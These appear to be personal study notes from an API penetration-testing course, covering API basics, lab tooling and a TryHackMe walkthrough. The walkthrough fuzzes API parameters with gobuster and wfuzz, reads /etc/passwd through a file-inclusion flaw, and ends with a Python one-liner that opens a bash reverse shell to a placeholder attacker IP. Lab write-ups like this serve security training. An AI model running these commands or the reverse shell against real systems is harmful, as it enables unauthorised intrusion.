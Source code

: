 !!! info ""

    ### Introduction

    API Application Programming Interface
    
    ![/Knowledge_Base/images/tcm_api_intro_1](/Knowledge_Base/images/tcm_api_intro_1.png)

    #### Interacting with APIs
    API to play with [https://catfact.ninja/](https://catfact.ninja/)
    ![/Knowledge_Base/images/tcm_api_intro_2](/Knowledge_Base/images/tcm_api_intro_2.png)
    
    To call API and get a fact [https://catfact.ninja/fact](https://catfact.ninja/fact)

    The API get /fact has a Parameter that we can test
    ![/Knowledge_Base/images/tcm_api_intro_3](/Knowledge_Base/images/tcm_api_intro_3.png)
    [](https://catfact.ninja/fact/)]

    Test the Parameter [https://catfact.ninja/fact?max_length=50](https://catfact.ninja/fact?max_length=50)


    #### API Types
    - REST (Client Server Arch., Stateless, uses HTTP methods)
    - Public
    - Partner (shared between a number of companies)
    - Private (used in a single Organization)

    #### HTTP Methods
    - Get
    - Head
    - Post
    - Delete


!!! info "" 

    ### Lab Setup

    - pimpmykali
        
        To easily install the required tools (such as docker-compose) and crAPI lab, simply clone this repository and run it with the option "O".

        ```bash
        git clone https://github.com/Dewalt-arch/pimpmykali
        ./pimpmykali.sh O
        ```

    - postman https://www.postman.com/downloads/

    - Burp Suite https://portswigger.net/burp/communitydownload
      - FoxyProxy extension for Firefox


!!! info "" 

    ### Enumerating APIs

    #### Fuzzing APIs

    !!! example ""
    
        https://tryhackme.com/r/room/bookstoreoc

        nmap the IP will show up port 5000 and robots.txt
        ![/Knowledge_Base/images/tcm_api_fuzz_1](/Knowledge_Base/images/tcm_api_fuzz_1.png)

        robots.txt doesn't want bots scanning api
        ![/Knowledge_Base/images/tcm_api_fuzz_2](/Knowledge_Base/images/tcm_api_fuzz_2.png)

        Fuzzing

        ```bash
        gobuster dir -u http://10.10.139.243:5000/ -w /usr/share/wordlists/dirb/big.txt -t 60
        ```

        ![alt text](/Knowledge_Base/images/tcm_api_fuzz_156.png)

        Now if I visit http://10.10.139.243:5000/console I see the below
        
        ![alt text](/Knowledge_Base/images/tcm_api_fuzz_-1.png)



        we visit that api path and we get this
        so now we know how to use the api
        ![/Knowledge_Base/images/tcm_api_fuzz_3](/Knowledge_Base/images/tcm_api_fuzz_3.png)
        
        keep in mind if you see v2, version numbers, check if maybe there is v1, v3, etc.
        Try different types of values for input.
        Try enumerating the API

        ```bash
        GET /api/v3/resources/books?published=%27 HTTP/1.1
        ```
        
        we can enumerate in place of ```published``` and the value as it as well
        Below will return only status 200 ok

        ```bash
        wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --sc 200 'http://10.10.121.118:5000/api/v2/resources/books?FUZZ=%27'

        #trying v1

        wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --sc 200 'http://10.10.121.118:5000/api/v1/resources/books?FUZZ=%27'
        ```

        I am having an issue with the lab, i rebooted the target machine but none of the scans are showing me the show result, anyways, I snatched teh shot from somewhere online.
        ![alt text](/Knowledge_Base/images/tcm_api_fuzz_-7.png)

        ![alt text](/Knowledge_Base/images/tcm_api_fuzz_-2.png)

        Seems like we have LFI, checking ```/etc/passwd```

        ![alt text](/Knowledge_Base/images/tcm_api_fuzz_-8.png)

        Checking users list and locating target user
        ![alt text](/Knowledge_Base/images/tcm_api_fuzz_-9.png)

        ![alt text](/Knowledge_Base/images/tcm_api_fuzz_-5.png)

        Now we can try out that pin from above in the interactive console, yup it worked!
        ![alt text](/Knowledge_Base/images/tcm_api_fuzz_-6.png)

        https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting/
        
        ```python
        __import__('os').popen('bash -c "bash -i >& /dev/tcp/<attacker_IP>/4444 0>&1"').read()
        ```







    #### Discovery via Source code




!!! info "" 

    ### Attacking Authorization




!!! info "" 

    ### Attacking Authentication




!!! info "" 

    ### Injection



!!! info "" 

    ### Mid-course Capstone







!!! info "" 

    ### Mass Assignment




!!! info "" 

    ### Excessive Data Exposure




!!! info "" 

    ### SSRF - Server-side Request Forgery



!!! info "" 

    ### Chaining Vulnerabilities



!!! info "" 

    ### Final Capstone

!!! info ""

    ### Resources

    [exploit-notes.hdks](https://exploit-notes.hdks.org/exploit/web/api/)


